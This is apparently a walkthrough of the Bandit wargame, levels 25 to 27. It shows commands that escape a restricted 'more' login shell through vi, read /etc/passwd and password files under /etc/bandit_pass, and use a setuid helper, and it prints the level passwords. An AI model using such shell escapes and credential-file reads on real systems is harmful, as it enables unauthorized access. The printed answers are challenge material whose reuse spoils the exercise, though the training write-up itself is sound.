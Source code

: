 ```
ssh -i ./bandit26.sshkey bandit26@localhost -p 2220
```
Shell not opens
```
cat /etc/passwd | grep bandit26
cat /usr/bin/showtext
```
```
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```
Execute command more and exits  
Shell minimization

```
v
:e /etc/bandit_pass/bandit26
```
`c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1`

Set shell to /bin/bash

```
:set shell=/bin/bash
:shell
```


## Level 26→ Level 27

```
./bandit27-do cat /etc/bandit_pass/bandit27
```
`YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS`







